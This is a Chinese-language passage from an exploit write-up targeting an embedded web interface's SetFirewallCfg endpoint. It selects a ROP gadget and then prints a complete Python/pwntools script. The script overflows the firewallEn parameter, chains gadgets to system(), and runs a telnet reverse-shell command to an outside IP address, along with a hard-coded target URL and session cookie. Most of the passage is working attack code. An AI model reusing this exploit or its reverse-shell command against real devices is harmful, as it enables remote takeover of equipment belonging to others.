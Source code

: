 [![](assets/1706958084-e2cf1a1dfc9daa1e217ac4c4c5791105.png)](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706708611927-9f0653e9-f44e-4ed2-bd47-0989ef7e1a2e.png)

还是选择这条比较短的，0x00018298

r3\_pop= libc\_base\_addr + 0x00018298

#### 6\. 构造利用脚本 getshell

最终的 payload：

```plain
payload = cyclic(52) + p32(r3_pop) + p32(system_addr) + p32(move_ro) + cmd
```

完整的 exp 如下

```plain
from pwn import *
import requests

url = "http://47.98.137.248"
header = {
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "Cookie": "password=bcf33de30ebf57e4d3785c08adec4b85cvztgb"
}

# 命令执行利用 telnet 反弹 shell
cmd = b"echo test;telnet 101.43.8.96 4444 | /bin/sh | telnet 101.43.8.96 5555"

libc_base_addr = 0xff58c000
libc = ELF("./lib/libc.so.0")
system_offset = libc.symbols["system"]

system_addr= libc_base_addr + system_offset
r3_pop =libc_base_addr + 0x00018298
move_r0= libc_base_addr+ 0x00040cb8

payload = cyclic(52) + p32(r3_pop) + p32(system_addr) + p32(move_r0) + cmd

data = {"firewallEn": payload}
response = requests.post(url + "/goform/SetFirewallCfg", headers=header, data=data)
print(response.text)
```
